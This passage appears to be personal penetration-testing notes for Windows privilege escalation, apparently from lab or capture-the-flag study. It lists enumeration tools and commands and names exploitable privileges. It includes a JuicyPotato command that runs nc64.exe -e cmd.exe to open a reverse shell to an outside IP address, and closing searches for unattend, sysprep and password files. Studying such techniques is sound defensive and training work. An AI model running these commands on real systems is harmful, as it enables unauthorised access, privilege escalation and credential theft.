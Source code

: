 		otherwise: winPEAS.bat
		Download from ? https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS
	    Powershell Scripts:
		https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
		https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp
		    For misconfigurations:  powerup.ps1
		    https://www.youtube.com/watch?v=WWE7VIpgd5I&ab_channel=Conda
		    Import-Module .\PowerUp.ps1
		    Invoke-AllChecks
		POWERLESS SCRIPT:  https://github.com/M4ximuss/Powerless
		sherlock.ps1
		watson
	General Enumeration:
	    hostname
	    ipconfig /all
	    netstat -rn
	    netstat -ano
	    netsh advfirewall show currentprofile
		netsh advfirewall firewall show rule name=all
	System/Version:
	    systeminfo
		systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
		*Check version, hotfixes
		**CHECK 32/64 BIT
	    wmic product get name, version, vendor
	    wmic qfe get Caption, Description, HotFixID, InstalledOn
	Users/Rights:
	    whoami /all
	    net user [name]
	    net localgroup [name]
	    Privileges:
		If you have SeImpersonatePrivilege, use Juicy Potato attack (ex. https://0xrick.github.io/hack-the-box/conceal/) (if you're a service acct?) (ex. https://www.absolomb.com/2018-05-04-HackTheBox-Tally/)
		    JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\inetpub\wwwroot\nc64.exe -e cmd.exe 192.168.119.186 443" -t *
			might need new clsid -c: get from github
		SeLoadDriverPrivilege privesc (https://0xdf.gitlab.io/2020/10/31/htb-fuse.html)
		Other privileges to look for:
		    SeImpersonatePrivilege
		    SeAssignPrimaryPrivilege
		    SeTcbPrivilege
		    SeBackupPrivilege
		    SeRestorePrivilege
		    SeCreateTokenPrivilege
		    SeLoadDriverPrivilege
		    SeTakeOwnershipPrivilege
		    SeDebugPrivilege
	Script/Process Modifications:
	    tasklist /v|more
	    tasklist /svc
	    wmic process get Name,ProcessID,ExecutablePath,commandline /format:list | more
	    *Search for versions/vulnerabilities
	    schtasks /query /v /FO list
	    sc queryex state= all
	Interesting Files:
	    dir /s/b *unattend*
	    dir /s/b *sysprep*
	    dir /s/b *.xml
	    dir /s/b *password*
	    dir /s/b *passwd*
	    dir /s/b *.conf*
	    dir /s/b *.log